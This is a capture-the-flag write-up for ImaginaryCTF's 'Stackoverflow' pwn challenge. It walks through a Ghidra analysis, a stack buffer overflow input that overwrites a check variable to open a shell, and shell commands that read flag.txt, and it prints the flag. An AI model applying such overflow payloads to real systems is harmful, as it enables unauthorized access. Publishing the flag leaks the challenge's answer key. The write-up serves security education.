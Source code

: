 ![ImaginaryCTF](../../banner.png)

# Stackoverflow

|Author|Points|Category|Solves|
|---|---|---|---|
|Eth007|50|Pwn|413|

### Description

```
Welcome to Stack Overflow! Get answers to all your programming questions right here!
```

### Attachments

* [stackoverflow](stackoverflow)
* nc chal.imaginaryctf.org 42001

We are given a NetCat-Connection and an executable. Let's first get a look at nc:
```
└─$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
green
Thanks! Now onto the posts!
ERROR: FEATURE NOT IMPLEMENTED YET
```
The programm asks for a color, answeres a short text and throws an error.
Let's get a look at the executable to find out what it does. Therefore we can use ghidra to analyze the file.

![ghidra.PNG](ghidra.PNG)

Ghidra shows us a `main` function. Here we see that the program compares `local_10` with `0x69637466` ("ictf") while our input gets written into `local_38`. If the comparison  returns true it will execute `/bin/sh`, so we have to trigger that.

`local_38` is 40 bytes big and is stored infront of the `local_10` on the stack. So we just put 11 * "ftci" and it will fill `local_38` until it overflows 1 "ftci" into local_10. It has to be reverted to "ftci" as it has to be stored in little endian.

Doing this we get the following output:
```
└─$ nc chal.imaginaryctf.org 42001
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
ftciftciftciftciftciftciftciftciftciftciftci
Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
```
As we know from the disassembly `/bin/bash` is executed and we can interact with the shell:

```
[...]
DEBUG MODE ACTIVATED.
ls
flag.txt
run
cat flag.txt
```
There is our flag:
```
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```
